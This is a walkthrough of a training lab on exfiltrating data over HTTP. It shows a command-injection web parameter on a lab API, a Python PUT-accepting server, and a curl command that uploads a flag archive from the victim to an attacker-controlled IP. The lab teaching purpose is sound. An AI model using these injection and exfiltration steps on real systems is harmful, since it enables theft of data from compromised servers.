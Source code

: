 ```yaml
---
description: >-
  In this lab you will learn how one can use a simple HTTP server written in
  Python for exfiltrating data from a restricted environment.
---
```


# Lab - Data Exfiltration



## Lab Environment

You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a low privilege user i.e. student. A sensitive flag file is kept in a zipped archive file in the student user's home directory.

Also, there is a monitor process running on the server machine that blocks most protocols except HTTP protocol (when using port 80).

**Objective:** Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

**Instructions**

* Once you start the lab, you will have access to the Kali GUI instance
* The API endpoint is accessible at `demo.ine.local` domain!

![](https://assets.ine.com/content/pta-labs/3\_data\_exfiltration/0.png)

## Tools

The tools used in this lab are:

* Nmap
* A web browser
* Python Scripting
* curl

## Solution

Run an nmap scan on demo.ine.local to find out open ports

```
nmap demo.ine.local
```

![](<../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

We can see that port 8000 is open

Going to **demo.ine.local** shows us the following

![](<../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

From the "cmd parameter required" response, we know this means we need to pass parameter names cmd with the URL

For example `pwd` or `ls` or `whoami`

```
demo.ine.local:8000?cmd=pwd
```

![](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

Here we see the present working directory located on the web-server

Let's see the contents of that directory

```
demo.ine.local:8000?cmd=ls -l
```

![](<../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png>)

We see an interesting file flag.zip. However, in order to retrieve the flag, we need to transfer/exfiltrate this file to our Kali machine

One of the tools mentioned in the beginning was cURL. Let's check if curl is on the remote machine

```
demo.ine.local:8000?cmd=curl -h
```

![](<../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Now that we know the remote machine has curl, let's check what our IP is.

```
ifconfig
```

![](<../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png>)

In order to exfiltrate the flag.zip file, we need to run a HTTP server on our kali machine that can accept and save the file when it is sent over HTTP

This code will help us:

```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

Next I saved the file as **server.py** and ran it.

```
python server.py 80
```

Now we'll upload the zip file to our HTTP server running on Kali using curl

```
demo.ine.local:8000?cmd=curl+192.147.164.2+--upload-file+flag.zip
```

![](<../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png>)

Here we can see that our server received the file&#x20;

If we list the contents of our current working directory we'll see the file

![](<../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Lastly, unzip the file and retrieve the flag.

```
unzip flag.zip
```

```
cat flag/flag.txt
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)
